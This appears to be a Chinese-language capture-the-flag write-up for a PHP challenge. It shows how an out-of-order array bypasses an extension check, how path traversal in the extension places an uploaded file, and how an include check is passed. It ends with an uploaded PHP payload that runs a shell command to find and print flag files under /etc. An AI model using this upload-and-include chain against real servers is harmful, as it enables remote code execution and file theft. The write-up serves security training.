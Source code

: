 首先判断`$ext==$filename[count($filename) - 1]`

如果传入file=a.php，$filename将变为

```php

array(2) {
  [0]=>
  string(1) "a"
  [1]=>
  string(3) "php"
}
```

```
$ext=php，$filename[count($filename) - 1]=$filename[1]=php
```

如果post传入数组，先传入file[1]=a，再传入file[0]=php，$filename将变为

```php

array(2) {
  [1]=>
  string(1) "a"
  [0]=>
  string(3) "php"
}
```

end($fileename)即\$ext仍为php，但是\$filename[1]=a,即可绕过\$ext==\$filename[count(\$filename)-1]判断（本质因为是键值对数组）

然后是文件上传改名，可以通过目录穿越绕过，当$ext=/../a.php时（即\$file[0]=/../a.php）,\$new_name=123./../a.php,即上传文件到当前目录，文件名为a.php

```php
$new_name = (string)rand(100,999).".".$ext;
move_uploaded_file($_FILES['file']['tmp_name'],$new_name
```

最后是对要包含的文件的文件内容和文件名进行校验，标签前加@并不影响执行（无视），因为上一步绕过文件上传，将a.php上传到当前目录，所以传入hello=a.php，并不等于$new_name。

```php
$_ = $_POST['hello'];
    if(@substr(file($_)[0],0,6)==='@<?php'){
        if(strpos($_,$new_name)===false) {
            include($_);
        } else {
            echo "you can do it!";
        }
    }
```

在之前admin的文件上传页面上传a.php，内容为

```php
@<?php echo `find /etc -name *flag* -exec cat {} +`;
```
